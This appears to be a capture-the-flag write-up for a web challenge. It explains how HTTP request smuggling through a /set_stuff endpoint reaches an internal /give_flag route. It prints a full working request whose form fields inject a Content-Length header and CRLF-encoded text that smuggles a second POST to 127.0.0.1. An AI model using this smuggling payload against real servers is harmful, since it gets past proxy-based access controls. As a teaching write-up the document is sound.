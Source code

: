 Let's start by reading the provided code. We can immediately see an SQL injection vulnerability.
![](../images/stuffy1.png)
However, we don't have control over the username. It's chosen from the provided `usernames.txt` file, which is a list of random usernames + 4 random characters.
![](../images/stuffy2.png)

So, SQLi isn't the right path.

Among all the routes, we can notice the endpoint `/give_flag`.
![](../images/stuffy3.png)
This function updates the value of "stuff" with the flag value for a user from the moment the request comes from the server itself.
We can try adding the Headers manually, but it won't work because it's the nginx proxy that modifies the headers.
So, we need to find a function that makes a request and redirect it to `/give_flag`.
Fortunately, `/set_stuff` makes a request to `/update_profile_internal`.

![](../images/stuffy4.png)
Set_stuff first retrieves our username from the cookies and checks that this user exists.
Then it retrieves the stuff variable from the request and verifies that its length is less than 200.
The `special_type` and `special_val` variables are similarly retrieved and cleaned with the `security_filter` function.
`special_type` and `special_val` become Headers, and `stuff` becomes part of the body.

So, we have control over three variables: stuff, special_val, and special_type.
The most likely path is a request smuggling. Let's try.
```
POST /set_stuff HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 228
Origin: http://localhost:3000
DNT: 1
Connection: close
Referer: http://localhost:3000/
Cookie: username=love1987OBCj
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: blue

special_type=Content-Length&special_val=80&stuff=aaaaaab%0d%0a%0d%0aPOST /give_flag HTTP/1.1%0d%0aHost: 127.0.0.1:3000%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aContent-Length: 21%0d%0a%0d%0ausername=love1987OBCj
```

Here, `special_type` and `special_val` form a header that will inform the first request (the end of aaaaaab) = Content-length: 80.
How do we find this number?

 ![](../images/stuffy5.png)
We just need to find the size of this string.
![](../images/stuffy6.png)
Then we create a second request. After refreshing the page, we'll have the flag in our stuff.
![](../images/stuffy7.png)
That's it!
